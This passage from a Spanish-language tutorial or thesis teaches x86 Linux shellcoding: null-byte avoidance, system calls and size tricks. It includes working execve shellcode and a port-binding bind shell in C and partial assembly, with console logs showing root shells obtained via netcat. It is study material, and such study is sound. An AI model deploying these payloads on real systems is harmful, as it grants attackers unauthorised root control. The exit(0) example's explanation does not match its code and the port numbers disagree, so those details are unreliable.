No hay una regla general que nos permita eludir la inserci\'on de $bytes$ nulos en un $shellcode$, sin embargo, tenemos herramientas que nos permiten saber si nuestro $shellcode$ los contiene. Un $byte$ nulo se genera cuando nuestro c\'odigo fuente se traduce a sus correspondientes instrucciones en c\'odigo m\'aquina y no es m\'as que un conjunto de ocho bits a cero, tal y como su nombre indica.\bigskip 

He escrito un c\'odigo que facilita la detecci\'on de $bytes$ nulos. Est\'a programado para plataformas con $GNU/Linux$. Para que el c\'odigo funcione se necesita tener instalada una aplicaci\'on llamada $ndisasm$ que viene instalada en la mayor\'ia de distribuciones o que se puede instalar f\'acilmente con cualquier gestor de paquetes. El programa, bautizado como $NullBytes$, se compone por seis archivos: $NullBytes.c$, $Mensajes.h$, $Mensajes.c$, $Salida.h$, $Salida.c$ y el $makefile$. En el Ap\'endice I se lista el contenido de cada archivo. Para entender su funcionamiento bastar\'a con compilar el c\'odigo ejecutando el comando $make$ y despu\'es el comando $./NullBytes$ $-h$.\bigskip

A continuaci\'on se plantear\'an soluciones a diferentes casos pr\'acticos d\'onde se pueden generar $bytes$ nulos:
\begin{itemize}
	\item \textbf{call 0x14}
\end{itemize}
Esta instrucci\'on salta 0x13h\footnote{La $h$ indica que el valor est\'a en hexadecimal. Si hubiera una $d$ el valor estar\'ia en decimal} (o 19d) $bytes$ hacia adelante. Dado que 19d es un n\'umero muy peque\~no, una vez se genere el c\'odigo m\'aquina del $shellcode$, al 19d se le anteponen varios ceros (ya que la arquitectura del procesador es de 32 o 64 bits) con lo que el $shellcode$ tendr\'a $bytes$ nulos.\bigskip

Para solucionar este caso hemos de utilizar el ya conocido m\'etodo del $JMP/CALL$. Imaginemos que el c\'odigo de donde se obtiene la instrucci\'on $call$ $0x14$ viene de desensamblar el C\'odigo \ref{fig:ejemploCall0x14}.

\lstset{language=[x86masm]Assembler,caption=Ejemplo de $byte$ nulo,label=fig:ejemploCall0x14}
\begin{lstlisting}	
		BITS 32
		call mark
		db "Hello world",0x0a
		mark:
		pop ecx
		(...)
\end{lstlisting}

En el c\'odigo anterior la etiqueta $mark$, de la instrucci\'on $call$, se traduce por el valor absoluto del salto que se ha de hacer en memoria para llegar a ejecutar la etiqueta especificada.
Como se ha comentado, el c\'odigo anterior tiene $bytes$ nulos. Lo correcto ser\'ia utilizar un c\'odigo tal que el  \ref{fig:segundoEjemploCall0x14}.

\lstset{language=[x86masm]Assembler,caption=Soluci\'on al $byte$ nulo,label=fig:segundoEjemploCall0x14}
\begin{lstlisting}	
		BITS 32
		jmp short one
		two:
		pop ecx
		(...)
		one:	
		call two:
		db "Hello world!",0x0a
\end{lstlisting}

\begin{math}\Rightarrow\end{math}Porqu\'e el $jmp$ $short$ $one$ y el $call$ $two$ no contienen $bytes$ nulos?\bigskip

Tanto la instrucci\'on $jmp$ como la instrucci\'on $call$ estan pensadas para realizar grandes saltos, sin embargo, a diferencia de la instrucci\'on $call$, cuando hacemos saltos con $jmp$ podemos utilizar otra versi\'on de la instrucci\'on que es m\'as adecuada para realizar saltos cortos -de aproximadamente 128 $bytes$- y gracias a ello nos ahorramos el relleno de ceros. Dicha instrucci\'on es la $jmp$ $short$.\\
Por otro lado, como se puede apreciar en el c\'odigo anterior, tenemos un $call$. Este $call$ no es problem\'atico ya que el salto es negativo, o sea, va hacia atr\'as. Cuando se hacen saltos negativos el procesador utiliza el m\'etodo $CA2$
\footnote{En http://es.wikipedia.org/wiki/Complemento\_a\_dos se puede encontrar m\'as informaci\'on.}  con lo que los bits de signo (negativo) se ponen a 1. Gracias a esto el $call$ no contiene $bytes$ nulos.

\begin{itemize}
	\item \textbf{mov eax, 0x4}
\end{itemize}
Si nos encontramos con instrucciones que trabajan con los registros al completo (32 o 64 bits) y en ellos se almacenan valores peque\~nos, lo que hemos de hacer es trabajar con sus hom\'ologos sin versi\'on extendida. Por ejemplo, deber\'iamos cambiar $eax$ por $al$.\bigskip

\begin{math}\Rightarrow\end{math}Porqu\'e con $mov$ $al,$ $0x4$ no obtenemos $bytes$ nulos?\bigskip

Los registros $eax$, $ebx$, $ecx$, $edx$, $esi$, $edi$, $ebp$ y $esp$ son registros de 32 bits. Estos registros se pueden dividir de varias maneras. Si se trabaja con los registros $ax$, $bx$, $cx$, $dx$, $si$, $di$, $bp$ y $sp$ s\'olo se podr\'an almacenar variables de 16 bits. Por \'ultimo, algunos de estos registros a\'un pueden dividirse en $al,ah$, $bl,bh$, $cl,ch$, $dl,dh$ que son la versi\'on de un $byte$ de los registros $eax$, $ebx$, $ecx$, $edx$. Cada tupla de registros de un $byte$ vienen a ser los dos $bytes$ de menos peso del registro extendido al que pertenecen. Adem\'as, la letra $l$ o $h$ determina si es el $byte$ de m\'as o menos peso. Por ejemplo, el registro $al$ contiene los bits del 0 al 7 del registro $eax$, en cambio, el registro $ah$ contiene los bits del 8 al 15.
El problema del $byte$ nulo viene cuando en un registro se almacena una variable para la cual sobra espacio. El espacio sobrante se rellena con bits a cero, con lo que se generan $bytes$ nulos. As\' pues, si almacenamos un valor peque\~no en un registro del tipo $al$, dicho registro no se rellenar\'a con ceros y as\'i se evitar\'a la generaci\'on de $bytes$ nulos. La Tabla  \ref{tab:equivalencias2} se ve el c\'odigo ensamblador de diferentes instrucciones y su traducci\'on a c\'odigo m\'aquina.   

\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Equivalencias entre c\'odigo m\'aquina y ensamblador}
   	\label{tab:equivalencias2} 	
   	\begin{center}
	\begin{tabular}{||l | c | r||}
		\hline
		\hline
		C\'odigo m\'aquina & Ensamblador \\
		\hline
		B8 04 00 00 00 & mov eax, 0x4\\
		\hline
		66 B8 04 00 & mov ax, 0x4\\
		\hline
		B0 04 & mov al, 0x4\\
		\hline
	\end{tabular}
	\end{center} \botfigrule
\end{table}

Como se puede ver en la Tabla \ref{tab:equivalencias2}, la instrucci\'on $mov$ $eax,$ $0x4$ genera tres $bytes$ nulos. La instrucci\'on $mov$ $ax,$ $0x4$ genera un $byte$ nulo y la instrucci\'on $mov$ $al,$ $0x4$ no genera ninguno. \pagebreak

\section{Implementando llamadas al sistema}

Una llamada al sistema -$system$ $call$- es una funci\'on dada por el sistema operativo. En $Linux$ o $BSD$, para especificar que queremos ejecutar una llamada al sistema usamos la instrucci\'on $int$ $0x80$. Una vez se ejecuta dicha instrucci\'on, el $kernel$ busca en el registro $eax$ el n\'umero que ha de identificar la llamada al sistema que queremos ejecutar. Si se encuentra un valor correcto en el registro $eax$ el $kernel$ procesa los argumentos dados para la llamada al sistema y la ejecuta.\bigskip

Los valores identificativos de cada llamada al sistema se pueden encontrar en un archivo llamado $unistd.h$. Dependiendo de la distribuci\'on de $GNU/Linux$ o de la versi\'on del $kernel$ de la que se disponga, el archivo puede encontrarse en diferentes ubicaciones. Para localizarlo bastar\'a con ejecutar el comando $updatedb$, seguido de $locate$ $unistd.h$ en la consola del sistema.\bigskip

Explicada la teoria, en el C\'odigo \ref{fig:exit} se ver\'a un ejemplo en el cual se ejecutar\'a la llamada al sistema $exit$. Exactamente $exit(0)$.

\lstset{language=[x86masm]Assembler,caption=Llamada al sistema $exit$,label=fig:exit}
\begin{lstlisting}	
		BITS 32
		xor eax, eax
		mov al, 1
		int 0x80
\end{lstlisting}

En la segunda y tercera l\'inea se ponen a cero los registros $eax$ y $ebx$. En la tercera l\'inea, a los ocho bits de menos peso de $eax$ se les asigna un 1. En la cuarta l\'inea se notifica al $kernel$ de que se quiere ejecutar una llamada al sistema.\bigskip

Se inicializa $eax$ porque ser\'a el registro que contendr\'a el n\'umero identificativo de la llamada al sistema en cuesti\'on. Por eso, despu\'es de que se inicialice, se le asigna un 1, que es el id de $exit$. Dado que como argumento la $system$ $call$ $exit$ utilizar\'a un cero, se ha de poner dicho valor en el registro $ebx$. Una vez realizados estos pasos, s\'olo queda notificar al $kernel$ de que todo est\'a preparado para la ejecuci\'on de la $system$ $call$.\bigskip

A partir del ejemplo anterior se podr\'ia adivinar cual es la metodologia que utiliza el n\'ucleo del sistema para ejecutar las llamadas al sistema. Cuando se procesa la instrucci\'on $int$ $0x80$, el $kernel$ busca en el registro $eax$ cual ser\'a la llamada al sistema a ejecutar. Una vez sabe cual es la $system$ $call$ a ejecutar, el $kernel$ conoce cuantos argumentos necesita dicha llamada. Los argumentos los hemos de almacenar en los registros $ebx$, $ecx$, $edx$, $esi$ y $edi$. Si la llamada al sistema tuviera m\'as de 5 argumentos se tendr\'ia que almacenar en el registro correcto la direcci\'on de memoria donde encontrar los argumentos restantes. En casos excepcionales, el registro $ebp$ se utiliza como argumento temporal\footnote{http://www.tldp.org/LDP/lki/lki-2.html\#ss2.11}. \pagebreak

\section{Optimizaci\'on de los shellcodes}
Antes de entrar de pleno en la programaci\'on de $shellcodes$ es bueno tener una base t\'ecnica en la que sustentarse. Por ello, en este breve cap\'itulo se dar\'an unas breves directrices para empezar a programar los $shellcodes$ de un modo eficiente. De esta manera, no tendremos que corregir nuestros $shellcodes$ una vez hayan sido programados, sino que desde un principio los programaremos teniendo en cuenta los puntos que se expondr\'an a continuaci\'on.
\subsection{Optimizaci\'on del tama\~no}
\subsubsection{La instrucci\'on cdq}
En ensamblador existe una instrucci\'on llamada $cdq$ una palabra ($word$) doble a cu\'adruple. Dado que los registros son de 32 bits (palabras dobles) necesitaremos dos registros para almacenar el resultado de la instrucci\'on $cdq$. En el caso de la instrucci\'on $cdq$, el registro $eax$ se utiliza como origen y los registros $edx$ y el mismo $eax$ se usan como destino. Lo que realiza la instrucci\'on es una extensi\'on del bit de signo de un entero de 32 bits (almacenado en $eax$).\bigskip

As\'i pues, si en $eax$ se almacena un cero - el bit de signo es 0 -, se conseguir\'a poner a cero el registro $edx$ sin tener que realizar una $xor$ con lo que, en cuanto a tama\~no, se ahorrar\'a un $byte$. En la Tabla \ref{tab:equivalencias3} se muestra como la instrucci\'on $cdq$ ocupa un $byte$ menos que la instrucci\'on $xor$.\bigskip

\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Instrucci\'on $cdq$}
   	\label{tab:equivalencias3} 	
	\begin{center}
		\begin{tabular}{||l | c | r||}
			\hline
			\hline
			C\'odigo m\'aquina & Ensamblador \\
			\hline
			31 D2 & xor edx, edx\\
			\hline
			99 & cdq\\
			\hline
		\end{tabular}
	\end{center} \botfigrule
\end{table}

\subsubsection{Uso inteligente de la pila}

Cuando se desapila un $byte$ de la pila a un registro de 32 bits se realiza autom\'aticamente una extensi\'on de signo llenando todo el registro en cuesti\'on. As\'i pues, si se diera el caso en el que se hubieran de ejecutar las siguientes instrucciones:
\begin{verbatim}
xor eax, eax
mov al, 0xb
\end{verbatim}
Las podr\'iamos substituir por las citadas a continuaci\'on y se obtendr\'ia el mismo resultado a la vez que se reducir\'ia en un $byte$ el tama\~no total del $shellcode$:
\begin{verbatim}
push byte 0xb
pop eax
\end{verbatim}

Dado que en binario 0xb es 00001011, al hacer el $pop$ $eax$ se realizar\'a una extensi\'on de signo - 0 en nuestro caso - y los 24 bits restantes del registro $eax$ se llenar\'an de ceros con lo que uno se ahorra realizar el $xor$ $eax$, $eax$. En la Tabla \ref{tab:equivalencias4} se muestra una tabla con el tama\~no de cada conjunto de instrucciones.\bigskip

\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Tama\~no instrucciones}
   	\label{tab:equivalencias4} 	
	\begin{center}
		\begin{tabular}{||l | c | r||}
			\hline
			\hline
			C\'odigo m\'aquina & Ensamblador \\
			\hline
			31 C0 & xor eax, eax\\
			\hline
			B0 0B & mov al, 0xb\\
			\hline
			\hline
			6A 0B & push byte 0xb\\
			\hline
			58 & pop eax\\
			\hline
		\end{tabular}
	\end{center} 
\end{table}

Como se puede apreciar, utilizando el segundo conjunto de instrucciones nos ahorramos un $byte$. Cabe destacar que siempre que se use la instrucci\'on $push$ ser\'ia correcto especificar el tama\~no de la variable a almacenar. Los tama\~nos disponibles son $byte$, $word$ y $dword$ que especifican que la variable es de 8, 16 y 32 bits respectivamente. \pagebreak

\section{Tipos de shellcodes}

Despu\'es de haber estudiado toda la problem\'atica inherente a la programaci\'on de $shellcodes$ en los cap\'itulos anteriores, en este cap\'itulo se va a estudiar cuales s\'on los dos tipos de $shellcodes$ existentes y cuales son sus m\'aximos exponentes.\bigskip

Por un lado se presentaran los $shellcodes$ de \'ambito local y por otro lado, se estudiaran tambi\'en los $shellcodes$ de \'ambito remoto.\\
Los $shellcodes$ locales son aquellos c\'odigos que no establecen ninguna conexi\'on ni env\'ian datos a otras m\'aquinas que no sean la explotada. Estos $shellcodes$ s\'olo son \'utiles si se tiene acceso f\'isico a la m\'aquina explotada.\\
Los $shellcodes$ remotos son aquellos $shellcodes$ que establecen conexiones o env\'ian datos a otras m\'aquinas que no sean la explotada. Se usan este tipo de $shellcodes$ cuando no se puede tener acceso a la m\'aquina explotada.\bigskip

\subsection{Shellcodes locales}

Tal y como se ha explicado, este tipo de $shellcode$ trabaja en un \'ambito local y s\'olo es \'util cuando se tiene acceso f\'isico a la m\'aquina explotada. Como $shellcode$ local s\'olo estudiaremos el llamado $execve$ $shellcode$ ya que una vez ejecutado este c\'odigo se tendr\'a el control absoluto de la m\'aquina donde se ejecute.\bigskip

\subsubsection{Execve shellcode}

Este es uno de los $shellcodes$ m\'as b\'asicos que existen, sin embargo, su correcta ejecuci\'on permite obtener el control absoluto de la m\'aquina donde se ejecute. Este $shellcode$ ejecuta una l\'inea de comandos y si disponemos de los privilegios suficientes podremos controlar todos los aspectos del sistema.\bigskip

Tal y como su nombre indica, este $shellcode$ utiliza una $system$ $call$ llamada $execve$. El prototipo de la funci\'on es el siguiente:
\begin{center}
\begin{verbatim}int execve ( const char * filename, const char * argv[], const char *envp[]);\end{verbatim}
\end{center}
Esta llamada al sistema permite ejecutar cualquier ejecutable que exista en el sistema mientras tengamos los permisos suficientes.\\
El par\'ametro $filename$ indica el nombre del ejecutable. Los argumentos de dicho ejecutable se almacenan en la variable $argv$. El argumento $envp$ contiene un $array$ de variables de entorno que seran heredadas por el ejecutable en cuesti\'on.\bigskip

En C, el c\'odigo equivalente al $execve$ $shellcode$ ser\'ia tan simple como las instrucciones citadas en el C\'odigo \ref{fig:execveC}.

\lstset{language=C++,caption=$Execve$ $shellcode$ en C,label=fig:execveC}
\begin{lstlisting}	
		#include <unistd.h>
		
		int main(void) {
			char * shell[2];
			shell[0] = "/bin/sh";
			shell[1] = 0;
			execve("/bin/sh", shell, NULL);
		}
\end{lstlisting}

Una vez visto el c\'odigo en C, se muestra en el C\'odigo \ref{fig:execveShellcode} una de las posibles implementaciones en ensamblador del $shellcode$ en cuesti\'on.

\lstset{language=C++,caption=$Execve$ $shellcode$ en ensamblador,label=fig:execveShellcode}
\begin{lstlisting}	
		BITS 32
		xor eax, eax
		cdq
		mov byte al, 11
		push edx
		push long 0x68732f2f
		push long 0x6e69622f
		mov ebx, esp
		push edx
		mov edx, esp
		push ebx
		mov ecx, esp
		int 0x80
\end{lstlisting}

En la segunda l\'inea del C\'odigo \ref{fig:execveShellcode} se pone el registro $eax$ a cero. A continuaci\'on se pone el registro $edx$ a cero, con la instrucci\'on $cdq$, tal y como se ha explicado en el cap\'itulo anterior. El registro $edx$ se utilizar\'a como tercer par\'ametro de la llamada al sistema $execve$. Con la cuarta l\'inea se almacena el n\'umero de la llamada al sistema en el registro $eax$.\\
Con las lineas 5, 6 y 7 se a\~nade el primer argumento de la llamada al sistema a la pila. El $push$ $edx$ hace la funci\'on de terminador de cadena, dado que $edx$ est\'a a cero. La arquitectura con la que se trabaja es de 32 bits con lo que en la pila s\'olo se pueden insertar variables de 32 bits. As\'i pues, y dado que la arquitectura es $little$ $endian$, primero se inserta $hs//$ con el $push$ $long$ $0x68732f2f$ y en la siguiente l\'inea se inserta $nib/$ con el $push$ $long$ $0x6e69622f$. Como se ha comentado, en la pila no se pueden insertar valores de m\'as de 32 bits en una sola instrucci\'on, y por la misma raz\'on tampoco se pueden insertar cadenas de menos de 32 bits. Este hecho justifica que la cadena $hs//$ tenga dos '/' en vez de una. La duplicaci\'on de la '/' no implica ning\'un problema. \\
En la octava l\'inea se almacena en $ebx$ la direcci\'on de memoria donde se encuentra la cadena $/bin//sh$. Esta direcci\'on ser\'a el segundo par\'ametro de la llamada al sistema.\\
En la novena l\'inea se insertan en la pila 32 $bits$ nulos que har\'an la funci\'on de puntero nulo en el segundo par\'ametro, tal y como especifica la p\'agina del manual de la llamada al sistema $execve$. \\
En la d\'ecima l\'inea se almacena la direcci\'on de este puntero nulo en el registro $edx$ para usarlo como tercer par\'ametro de la llamada al sistema. \\
En la l\'inea 11, se a\~nade a la pila la direcci\'on de memoria donde se encuentra la cadena $/bin//sh$ -o sea, se inserta el puntero a la cadena- para que, posteriormente, en la l\'inea 12, sea utilizado como segundo par\'ametro almacen\'andose en el registro $ecx$.\\
En la l\'inea 13 notificamos al n\'ucleo de que todo est\'a preparado para que se ejecute una llamada al sistema.\bigskip

Tal y como se puede ver en el C\'odigo \ref{fig:OutputExecveShellcode} la ejecuci\'on de este $shellcode$ local se realiza de un modo satisfactorio y el usuario obtiene su l\'inea de comandos con la que ejecutar cualquier programa.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Ejecuci\'on $Execve$ $shellcode$}
%   	\label{fig:OutputExecveShellcode}   		
%	\begin{verbatim}

\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on $Execve$ $shellcode$, label=fig:OutputExecveShellcode]
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ExecveShellcode/PushingExecve$ 
		./genExec.sh execve-Pushing2.S 
		####      Generating executable...       ####
		sourceDOTo = execve-Pushing2.o
		executable = execve-Pushing2
		ld: warning: cannot find entry symbol _start; defaulting to 0000000008048060
		[sudo] password for newlog: 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ExecveShellcode/PushingExecve$ 
		./execve-Pushing2 
		# id
		uid=1000(newlog) gid=1000(newlog) euid=0(root) 	groups=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		# exit
\end{listing}
%		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ExecveShellcode/PushingExecve$
%	\end{verbatim} \botfigrule
%\end{figure}

Como se puede ver en el C\'odigo \ref{fig:OutputExecveShellcode}, para la generaci\'on del ejecutable final del $shellcode$ se utiliza el $script$ $genExec.sh$. Para entender el funcionamiento de este $script$ y muchos otros detalles sobre la generaci\'on de los ejecutables que se utilizar\'an en esta investigaci\'on, se remite al lector al Ap\'endice II.

\subsection{Shellcodes remotos}

Como se ha comentado al inicio de este cap\'itulo, este tipo de $shellcode$ ser\'a utilizada cuando no se disponga de acceso f\'isico a la m\'aquina objetivo. El objetivo de este tipo de $shellcodes$ es ejecutarse en $software$ que est\'e pensado para gestionar peticiones recibidas. Una vez el $software$ haya sido explotado, el $shellcode$ se encargar\'a de que el sistema vulnerado se conecte a una m\'aquina espec\'ifica, o espere y acepte una conexi\'on o simplemente env\'ie informaci\'on sensible.  Como ya se ha comentado, las limitaciones de un $shellcode$ dependen s\'olo de nuestra imaginaci\'on.\bigskip

\subsubsection{Port binding shellcode}

Este tipo de $shellcode$ es uno de los m\'as habituales cuando se trata de explotar vulnerabilidades remotas. El objetivo de este $shellcode$ es el de vincular el int\'erprete de comandos del sistema -$shell$- a un puerto determinado donde escuchar\'a a la espera de conexiones remotas. Un diagrama de flujo v\'alido para este tipo de $shellcode$ ser\'ia el de la Figura \ref{fig:diagramaFlujo}.\bigskip

\begin{figure}[!hbp]
	\caption{Diagrama de flujo}
    \label{fig:diagramaFlujo}  
    \centering
    \addtolength{\abovecaptionskip}{-12pt}    
    \shadowbox{ \begin{minipage}{4.5 in}	    
        \centering
        
\includegraphics[height=5.5in]{PortBinding/Figura3}                        
    \end{minipage} }  
\end{figure}

El diagrama de flujo es bastante autoexplicativo, sin embargo, una vez se revise el c\'odigo en c que responde a dicho diagrama, se har\'a una explicaci\'on concisa de cada instrucci\'on que implique cierta dificultad o novedad. Una posible implementaci\'on del $shellcode$ de vinculaci\'on a un puerto podr\'ia ser la mostrada en el C\'odigo \ref{fig:portBindingC}.

\lstset{language=C++,caption=$Shellcode$ de vinculaci\'on a un puerto en C,label=fig:portBindingC}
\begin{lstlisting}	
		#include <unistd.h>
		#include <sys/socket.h>
		#include <netinet/in.h>

		int main(void) {
					int new, i, sockfd = socket(AF_INET, SOCK_STREAM,0);
					struct sockaddr_in sin;
					sin.sin_family = AF_INET;
					sin.sin_addr.s_addr = 0;
					sin.sin_port = htons(12345);
					bind(sockfd, (struct sockaddr *)&sin, sizeof(sin));
		 			listen(sockfd, 5);
					new = accept(sockfd, NULL, 0);
					for ( i = 2; i >= 0; i--)
						dup2(new, i);
					char * shell[2];
		 			shell[0] = "/bin/sh";
					shell[1] = 0;
					execve(shell[0], shell, NULL);
		}
\end{lstlisting}

Este c\'odigo vincula un $socket$\footnote{Un socket es un concepto abstracto definido por una direcci\'on IP, un protocolo de transporte y un puerto que permite intercambiar informaci\'on entre dos programas.} al puerto 1234 y ejecuta una $shell$ cuando alguien se conecta a este puerto. Las funciones b\'asicas de este c\'odigo y de la mayor\'ia de c\'odigos que trabajan con $sockets$ realizan las conexiones con $bind()$, $listen()$, $accept()$ y $dup2()$. Para obtener informaci\'on sobre cada una de ellas basta con visualizar las p\'aginas de manuales\footnote{Para ver un manual sobre una funci\'on espec\'ifica, basta con ejecutar en una $shell$ el comando 'man $<$comando$>$'. Un claro ejemplo seria 'man dup2'.} que la mayor\'ia de sistemas $unix$ tienen instaladas por defecto.\\
El funcionamiento de este c\'odigo es el siguiente:\\
Primero se crea un $socket$ que es el que se utilizar\'a como par\'ametro para la funci\'on $accept()$. Al mismo tiempo, se declara otro $socket$ que ser\'a el que utilizar\'a para almacenar el valor de retorno de la funci\'on $accept()$.\\
De la sexta a la novena l\'inea, se declara -l\'inea 6- y se inicializa la estructura de datos necesaria para ejecutar la funci\'on $bind$. Como ya se ha comentado, todos los campos de esta estructura se pueden consultar en las p\'aginas correspondientes de su manual, sin embargo, comentaremos que la constante AF\_ INET especifica que la conexi\'on que se realizar\'a utilizar\'a el protocolo $TCP$. La funci\'on $htons()$ se encarga de convertir el valor entero que recibe de entrada a un formato con el que la funci\'on $bind()$ pueda trabajar.\\
En la l\'inea 11 se ejecuta la funci\'on $listen()$ que mantiene la ejecuci\'on del c\'odigo pausada hasta que se recibe una conexi\'on con los par\'ametros definidos en el $socket$ $sockfd$. Una vez se realiza dicha conexi\'on, \'esta se acepta y se devuelve un $socket$ que identifica la conexi\'on recibida. En las l\'ineas 13 y 14 se ejecuta un bucle tres veces que se encarga de duplicar los descriptores de lectura, escritura y salida de errores. Esto permite que todos los datos que se trasmitan de y hasta la consola ejecutada posteriormente, las pueda visualizar el usuario. Por \'ultimo, en la l\'inea 18 se ejecuta la consola que ser\'a brindada al usuario. \bigskip

Para comprobar que el C\'odigo \ref{fig:portBindingC} funciona correctamente, una vez compilado y ejecutado, se debe realizar una conexi\'on hacia el $socket$ que estar\'a a la escucha. Para realizar dicha conexi\'on se utilizar\'a una herramienta muy \'util llamada $Netcat$ \footnote{Netcat es una herramienta creada por Hobbit. Su p\'agina oficial es http://netcat.sourceforge.net/}. $Netcat$ es una herramienta muy extensa y tiene infinidad de utilidades. En esta investigaci\'on, $Netcat$ s\'olo se utilizar\'a para conectar hacia una aplicaci\'on que est\'e a la escucha - $port$ $binding$ $shellcode$ - o para esperar que una aplicaci\'on - $reverse$ $connection$ $shellcode$ - se conecte a \'el.\\
En el C\'odigo \ref{fig:ExecutingPortBindingC} se muestra el funcionamiento del $shellcode$ de vinculaci\'on a un puerto escrito en C.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en C}
%   	\label{fig:ExecutingPortBindingC}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en C, label=fig:ExecutingPortBindingC]
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/PortBinding/CSource$ 
		gcc PortBindingCode.c -o PortBindingCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/PortBinding/CSource$ 
		sudo ./PortBindingCode 
\end{listing}
%	\end{verbatim} \botfigrule

Como se puede ver, primero se compila el c\'odigo generado y acto seguido se ejecuta como usuario $root$ \footnote{El usuario $root$ es el usuario administrador del sistema y tiene privilegios m\'aximos.}. Una vez que el $shellcode$ est\'a a la escucha, se debe conectar a \'el siguiendo la metodolog\'ia mostrada en el C\'odigo \ref{fig:ConnectingToPortBindingC}.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en C}
%   	\label{fig:ConnectingToPortBindingC}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en C, label=fig:ConnectingToPortBindingC]	
		newlog@Beleriand:~$ pwd
		/home/newlog
		newlog@Beleriand:~$ nc -vv 127.0.0.1 12345
		Connection to 127.0.0.1 12345 port [tcp/] succeeded!
		pwd
		/home/newlog/Documentos/Shellcoding/Codigos/PortBinding/CSource
		id
		uid=0(root) gid=0(root) groups=0(root)
		exit
\end{listing}
%	\end{verbatim} \botfigrule

Tal y como se muestra en el C\'odigo \ref{fig:ConnectingToPortBindingC}, primero se conecta al puerto 12345 de la m\'aquina local. La ejecuci\'on de la herramienta $Netcat$ se realiza desde el directorio $/home/newlog$. El $shellcode$ de vinculaci\'on a un puerto est\'a escuchando en el puerto 12345, as\'i que cuando se conecten a \'el brindar\'a una l\'inea de comandos, y no tan s\'olo brindar\'a una l\'inea de comandos, sino que adem\'as la brindar\'a con los permisos que tiene el $port$ $binding$ $shellcode$, que, tal y como se ha asignado en el C\'odigo \ref{fig:ExecutingPortBindingC}, son los permisos del usuario $root$.\\
Como se puede ver, una vez se ha conectado con el $shellcode$, se muestra a partir del comando $pwd$ que el directorio actual sobre el que se est\'a trabajando es $/home/newlog/Documentos/Shellcoding/$\\$Codigos/PortBinding/CSource$ que es el directorio donde se hab\'ia ejecutado el $shellcode$, en vez de trabajar sobre el directorio $/home/newlog$ que es en el que se hab\'ia ejecutado la herramienta $Netcat$. Por otro lado, si se comprueba cual es el identificador de usuario se puede ver que es el de usuario $root$ en vez de ser el de cualquier otro usuario.\bigskip


Una vez visto y entendido el funcionamiento del c\'odigo en c, se debe explicar su implementaci\'on en ensamblador. Para escribir el $shellcode$ se utilizar\'a una $system$ $call$ llamada $socketcall()$. Tal y como se puede ver en el manual correspondiente - $man$ $2$ $socketcall$ -, esta llamada al sistema permite acceder -ejecutar- a todas las funciones utilizadas en el ejemplo anterior.\\
La totalidad de las funciones que se pueden ejecutar con la llamada al sistem $socketcall()$ se pueden encontrar en el fichero $/usr/include/linux/net.h$. La sintaxis de $socketcall()$ es la siguiente:

\begin{verbatim}
int socketcall(int llamada, unsigned long * args);
\end{verbatim}

El primer argumento es un entero que identifica la llamda al sistema a ejecutar. El segundo argumento es un puntero a la lista de par\'ametros que necesita la llamada al sistema que se quiere ejecutar. En ensamblador, la llamada al sistema que identifica a $socketcall()$ es la n\'umero 102 y se debe almacenar en el registro $eax$, el argumento $llamada$ se almacena en el registro $ebx$ y por \'ultimo, la direcci\'on de memoria donde estan almacenados los dem\'as argumentos - $args$ - se debe almacenar en el registro $ecx$.\\

En el C\'odigo \ref{fig:portBindingASM} se lista el c\'odigo fuente en ensamblador del $port$ $binding$ $shellcode$. Debido a que el c\'odigo es bastante extenso, cada l\'inea tendr\'a su propia explicaci\'on en vez de dar una explicaci\'on conjunta al final. Comentar el c\'odigo permite dar una explicaci\'on mucho m\'as detallada.

\lstset{language=[x86masm]Assembler,caption=C\'odigo del $shellcode$ de vinculaci\'on a un puerto en ensamblador,label=fig:portBindingASM}
\begin{lstlisting}[language={[x86masm]Assembler}]	
		BITS 32
		section .text
		global _start
		_start:

		; syscall socketcall(ebx, ecx) donde ebx = numero funcion y 
		; ecx = direccion de parametros de funcion.

		; s = socket(2, 1, 0);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax se almacena el numero 102.
		pop eax
		; Se pone a cero el registro edx.
		cdq
		; Se pone a cero el registro ebx.
		xor ebx, ebx
		; Se construyen los argumentos de la llamada a socket() y 
